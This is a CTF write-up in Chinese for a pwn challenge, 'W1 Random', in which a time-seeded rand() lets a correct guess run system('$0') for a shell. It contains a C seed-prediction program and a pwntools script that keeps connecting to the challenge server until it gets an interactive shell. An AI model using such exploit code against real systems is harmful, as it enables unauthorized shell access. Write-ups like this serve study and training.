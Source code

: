 # W1 Random

## 文件分析

下载`pwn`，保护全开  
ghidra分析为64位程序

## 逆向

程序中有且仅有一个%d的输入，且匹配读入的int类型，所以不存在输入中的漏洞

但是将输入的数字猜对，可以执行system，不过是2$031中的某2个字符  
只要执行system("$0")，同样可以打开shell

随机值的种子是系统当前时间，种子相同，随机数相同  
故我们需要在正确的时间输入正确的随机数才能打开shell

## EXPLOIT

首先我们需要找到这个合适的时间

```c
// seedprobe.c
#include <stdio.h>
#include <time.h>
#include <stdlib.h>

static char cmdlist[5] = {'2', '$', '0', '3', '1'};

int main(void) {
    time_t init = time(NULL) + 5; // 为了避免本地与服务器时间不同带来的问题，故选择5秒后开始计算
    int valid = 0;
    for (int i = 0; i < 120; i++) {
        srand(init + i);
        int guess = rand();
        char c2 = cmdlist[rand() % 5];
        char c1 = cmdlist[rand() % 2];
        if (c1 == '$' && c2 == '0') { // 模拟程序运行
            time_t tmp = init + i;
            char timestr[16];
            strftime(timestr, 16, "%m-%d %H:%M:%S ", localtime(&tmp));
            printf("%s\b, guess=%d\n", timestr, guess); // 打印时间方便卡时间测试；打印数字方便读取
            valid++;
        }
    }
    if (valid > 0) 
        printf("%d valid time stamps.\n", valid);
    else
        printf("No valid time now.\n");
    return 0;
}
```

然后在合适的时间启动gdb调试，发现可以成功打开shell，于是开始打靶

```python
from pwn import *
import time

sh = process('seedprobe') # 取第一个数字
sh.recvuntil(b'=') # skip
guess = sh.recvline()[:-1] # strip '\n'
sh.close()

while True:
    sh = remote("node4.buuoj.cn", 26447)
    sh.sendline(guess)
    if sh.recvuntil(b'Ha', timeout=1) == b'': # 超时未读到Haha...即代表已在合适的时间猜对数字
        break
    sh.close()
    time.sleep(0.5)

sh.interactive()
```

## 参考文献

[模拟攻击](http://www.asuka39.top/article/security/ctf/pwn/2064/)

Done.
